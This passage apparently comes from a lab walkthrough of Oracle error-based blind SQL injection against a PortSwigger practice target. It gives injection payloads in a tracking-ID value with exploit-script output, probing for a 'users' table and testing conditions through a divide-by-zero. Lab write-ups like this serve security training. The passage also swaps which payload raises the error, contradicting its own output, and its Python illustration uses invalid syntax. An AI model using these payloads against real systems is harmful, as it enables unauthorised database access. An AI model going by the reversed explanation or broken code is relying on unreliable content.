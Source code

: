 **Hmm... What if I provided a table that doesn't exist?**
```py
payload = f"""{trackingid}'||(SELECT '' FROM faketable)||'"""
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
Error occurred
```

**Then what about a real table?**
```py
payload = f"""{trackingid}'||(SELECT '' FROM users WHERE ROWNUM = 1)||'"""
```

> Note: The `WHERE ROWNUM = 1` condition is to prevent the query from returning more than one row.

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
No error
```

**Can confirm it has a table called `users`!**

**Moreover, we can try to do test conditions:**
```py
# Payload 1:
payload = f"""{trackingid}'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'"""

# Payload 2:
payload = f"""{trackingid}'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'"""
```

```
# Payload 1:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
Error occurred

# Payload 2:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
No error
```

**The `CASE` statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false.**

- In the payload 1, the `CASE` expression evaluates to `'a'`, which does not cause any error.
- In the payload 2, it evaluates to `1/0`, which causes a divide-by-zero error.

**If you found that the above SQL queries are confusing, let's convert those to python:**
```py
# Payload 1:
if 1 = 1: # Always True
	print(1 / 0) # divide-by-zero error
else:
	print('a')

# Payload 2:
if 1 = 2: # Always False
	print(1 / 0)
else:
	print('a')
```
